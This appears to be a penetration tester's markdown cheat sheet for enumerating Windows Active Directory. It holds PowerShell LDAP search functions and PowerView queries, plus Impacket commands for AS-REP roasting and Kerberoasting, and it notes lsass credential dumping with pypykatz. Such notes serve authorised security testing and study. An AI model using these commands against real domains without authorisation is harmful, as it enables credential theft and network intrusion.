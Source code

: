 # Windows Active Directory Enumeration.

#### check-list
- [PayloadAllTheThings](https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/blob/6bcd2e8a6a39d26a547a70d83dfebef4c2c6f801/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [S1ckB0y1337](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
- [PowerView](https://powersploit.readthedocs.io/en/latest/Recon/)
- check ldap for system/users informations
- check smb for shares
- check rpcbind for system/users informations
- check impacket examples scripts
- generate usernames from `fname lname` wordlist [namemash.py](https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py)
```powershell
# enuemrate valid users through kerberos
./kerbrute
# enumerate users do not require Kerberos preauthentication
GetNPUsers.py EGOTISTICAL-BANK.local/ -no-pass -usersfile usernames
# request other users krbt hash if you have a user cerdentials
GetUserSPNs.py
# runas user in a domain using credentials, or use bloodhound-python
runas /netonly /user:support cmd.exe
##
Get-NetUser -SPN #Kerberoastable users
# Show computerss 
Get-NetComputer | select operatingsystem,dnshostname
# Check if current user is logged in to a specific computer, or using PsLoggedOn, use your creds to access available targets
Get-NetSession -ComputerName web04
.\PsLoggedon.exe \\web04
# show AD computers
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion


```
#### notes 
- use `runas` to connect to domain using user credentials and run bloodhound or use the credentials in bloodhoud from python
- lsass stores credentials that can be dumped using pypykatz

```powershell
# enumerate domain users and groups
net user /domain
net group /domain
# find PDC
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
([adsi]'').distinguishedName
```

```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.FindAll()


```

- LDAP search
```powershell
function LDAPSearch {
    param (
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()

}

# e.g
LDAPSearch -LDAPQuery "(samAccountType=805306368)"
LDAPSearch -LDAPQuery "(objectclass=group)"

# Enumerate every group's members, and every member of nested groups
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) {
$group.properties | select {$_.cn}, {$_.member}
 $groupName = $group.properties.cn
    $members = $group.properties.member
    echo "Group: $groupName"
    echo "Members:"
    foreach ($member in $members) {
        echo $member
    }
 }
```

